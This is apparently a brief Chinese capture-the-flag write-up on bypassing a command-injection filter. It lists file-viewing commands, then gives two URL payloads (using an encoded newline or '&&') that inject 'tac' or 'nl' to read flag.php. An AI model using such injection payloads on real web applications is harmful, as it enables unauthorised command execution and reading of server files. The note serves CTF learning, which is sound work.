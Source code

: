 # 知识点
### 换行符 替换 分号
### 查看文件命令-cat，tac，head，tail，more，less，nl
[http://blog.chinaunix.net/uid-128922-id-289974.html](http://blog.chinaunix.net/uid-128922-id-289974.html)
# 思路
payload
```bash
方法一 ?c=tac flag.php%0a
方法二 ?c=nl flag.php%26%26   %26 - &
```
![image.png](./images/20231017_2350478987.png)
